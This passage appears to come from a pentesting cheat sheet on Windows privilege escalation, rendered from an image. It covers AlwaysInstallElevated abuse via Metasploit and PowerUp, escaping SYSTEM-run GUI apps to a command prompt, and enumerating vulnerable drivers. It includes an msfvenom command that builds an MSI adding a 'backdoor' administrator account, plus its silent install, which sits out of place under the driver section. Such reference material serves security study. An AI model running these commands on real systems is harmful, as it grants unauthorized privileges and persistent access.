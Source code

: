 **Metasploit : exploit/windows/local/always\_install\_elevated**

**PowerUp.ps1 : Get-RegistryAlwaysInstallElevated, Write-UserAddMSI**

### EoP - Insecure GUI apps

**Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.**

**Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on**

**"Click to open Command Prompt"**

### EoP - Evaluating Vulnerable Drivers

**Look for vuln drivers loaded, we often don't spend enough time looking at this:**

**Living Off The Land Drivers is a curated list of Windows drivers used by adversaries to**

**bypass security controls and carry out attacks. The project helps security professionals stay**

**informed and mitigate potential threats.**

**Native binary: DriverQuery.exe**

```
PS C:\Users\Swissky> driverquery.exe /fo table /si
Module Name Display Name Driver Type Link Date
============ ====================== ============= ======================
1394 ohci 1394 OHCI Compliant Ho Kernel 12 / 10 / 2006 4 : 44 : 38 PM
3 ware 3 ware Kernel 5 / 18 / 2015 6 : 28 : 03 PM
ACPI Microsoft ACPI Driver Kernel 12 / 9 / 1975 6 : 17 : 08 AM
AcpiDev ACPI Devices driver Kernel 12 / 7 / 1993 6 : 22 : 19 AM
acpiex Microsoft ACPIEx Drive Kernel 3 / 1 / 2087 8 : 53 : 50 AM
acpipagr ACPI Processor Aggrega Kernel 1 / 24 / 2081 8 : 36 : 36 AM
AcpiPmi ACPI Power Meter Drive Kernel 11 / 19 / 2006 9 : 20 : 15 PM
acpitime ACPI Wake Alarm Driver Kernel 2 / 9 / 1974 7 : 10 : 30 AM
ADP80XX ADP80XX Kernel 4 / 9 / 2015 4 : 49 : 48 PM
<SNIP>
```

**matterpreter/OffensiveCSharp/DriverQuery**

```
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

```
PS C:\Users\Swissky> DriverQuery.exe --no-msft
[+] Enumerating driver services...
[+] Checking file signatures...
Citrix USB Filter Driver
```

### EoP - Printers

#### Universal Printer
